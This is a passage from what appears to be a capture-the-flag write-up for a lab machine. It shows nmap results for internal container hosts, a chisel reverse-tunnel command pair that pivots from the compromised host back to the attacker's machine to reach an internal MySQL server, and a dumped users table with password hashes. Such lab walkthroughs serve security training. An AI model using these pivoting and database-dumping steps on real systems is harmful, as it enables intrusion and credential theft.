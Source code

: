 ```
Host is up (0.00026s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap scan report for 172.17.0.5
Host is up (0.00029s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8118/tcp open  unknown

Nmap scan report for 3c371615b7aa (172.17.0.6)
Host is up (0.000055s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
```

It appears that 172.17.0.3 has the MySQL instance, and 0.4 has the MongoDB instance. We can first pivot to the .0.3 instance using `chisel`.&#x20;

```bash
# on kali
chisel server -p 5555 --reverse
# on host
./chisel client 10.10.14.13:5555 R:3306:172.17.0.3:3306
```

Afterwards, we can access the database:

```
$ mysql -h 127.0.0.1 -u portaldb -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 188
Server version: 8.0.27 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

We can find the `users` table to see that Jeremy Hammond is the user with a hash:

```
MySQL [portal]> select * from users\g
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
| id | firstname | lastname | gender | contact                | username | password                         | address | avatar                            | last_login | login_type | date_added          | date_updated        |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
|  1 | Jeremy    | Hammond  | Male   | jhammond@carpediem.htb | admin    | b723e511b084ab84b44235d82da572f3 |         | uploads/1635793020_HONDA_XADV.png | NULL       |          1 | 2021-01-20 14:02:37 | 2022-04-01 23:34:50 |
| 25 | test      | test     | Male   | test                   | test123  | cc03e747a6afbbcbf8be7668acfebee5 | test123 | NULL                              | NULL       |          1 | 2023-05-11 09:50:33 | 2023-05-11 09:51:37 |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
```